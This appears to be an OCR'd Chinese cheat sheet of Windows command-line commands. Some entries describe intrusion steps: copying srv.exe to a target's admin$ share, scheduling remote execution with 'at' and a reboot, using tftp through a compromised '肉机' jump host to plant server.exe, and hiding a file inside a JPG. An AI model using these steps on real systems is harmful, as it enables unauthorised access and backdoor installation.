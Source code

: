 
　　at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机
 

　　finger username @host 查看最近有哪些用户登陆
 

　　telnet ip 端口 远和登陆服务器,默认端口为23
 

　　open ip 连接到IP（属telnet登陆后的命令）
 

　　telnet 在本机上直接键入telnet 将进入本机的telnet
 

　　copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件
 

　　copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下
 

　　copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件
 

　　copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：
 

　　xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件
 

　　用参数/e才可连目录下的子目录一起复制到目标地址下。
 

　　tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exec:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送
 

　　tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机
 

　　ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)
 

　　route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface
 

　　arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息
 

　　start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令
 

　　mem 查看cpu使用情况
 

　　attrib 文件名(目录名) 查看某文件（目录）的属性
 

　　attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性
 

　　dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间
 

　　date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间
 

　　set 指定环境变量名称=要指派给变量的字符 设置环境变量
 

